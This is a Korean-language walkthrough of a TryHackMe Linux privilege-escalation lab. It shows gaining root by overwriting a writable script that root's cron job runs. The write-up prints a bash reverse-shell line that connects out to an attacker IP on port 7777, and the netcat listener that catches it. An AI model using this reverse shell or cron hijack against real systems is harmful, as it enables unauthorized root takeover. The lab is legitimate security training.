




## Privilege Escalation: Cron jobs
> TryHackMe의 "Linux Privilege Escalation: Cronjobs" 실습을 기반으로, crontab에 등록된 주기적 실행 스크립트의 내용을 악의적으로 수정하여 루트 권한 획득 및 플래그 탈취에 성공하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.233.141
- **공격 머신**: Kali Linux
- **사용 계정**: `karen`
- **권한 상승 방법**: 크론잡(Cronjob)을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.233.141
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.



---

#### 2.2 crontab 확인 및 취약점 식별
```bash
cat /etc/crontab
```
- 시스템에 등록된 주기 실행(cron) 항목을 확인하였다.



- `/home/karen/backup.sh`가 매분 실행되도록 등록되어 있었으며, 해당 파일은 karen 사용자에게 쓰기 권한이 부여되어 있었다. 이는 권한 상승의 기회를 의미한다.

---

#### 2.3 악성 스크립트 작성

```bash
vi /home/karen/backup.sh
```
- 원래는 zip 명령어로 파일을 백업하는 스크립트였으나, 이를 리버스 쉘 코드로 변경하였다.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.63.129/7777 0>&1
```
- 이 명령어는 bash 셸을 통해 공격자의 머신(10.21.63.129)의 7777 포트로 TCP 연결을 시도하며, 입출력을 해당 연결에 리디렉션함으로써 원격 쉘을 확보할 수 있도록 한다.
- 변경 후 실행 권한을 추가하였다.

```bash
chmod +x /home/karen/backup.sh
```



---

#### 2.4 리버스 쉘 대기 및 루트 쉘 획득

- Kali에서 아래와 같이 리버스 쉘 수신을 위해 포트 대기 상태를 설정하였다.

```bash
nc -lvnp 7777
```

- 1분 이내로 타겟 머신에서 루트 권한으로 크론잡이 실행되며, 공격자의 리스닝 포트로 접속이 이루어졌고 루트 권한의 쉘을 획득하였다.

```bash
find / -name flag5.txt
cat /home/ubuntu/flag5.txt
```



- 루트 쉘 상태에서 플래그 파일을 찾아 읽어냈다.

---

### 3. 최종 결과
- 크론잡에 등록된 스크립트를 수정하여 루트 쉘 획득에 성공하였다.
- flag5.txt 파일에서 플래그 확보: `THM-383000283`

---

### 4. 배운 점

> ✅ 실습을 통해 crontab에 등록된 스크립트가 쓰기 가능한 상태일 경우, 간단한 리버스 쉘 삽입만으로도 루트 권한을 탈취할 수 있다는 점을 명확히 체감할 수 있었다. 주기적 실행 스크립트의 접근 제어 미흡은 치명적인 권한 상승 공격으로 이어질 수 있는 매우 위험한 보안 취약점임을 확인하였다.

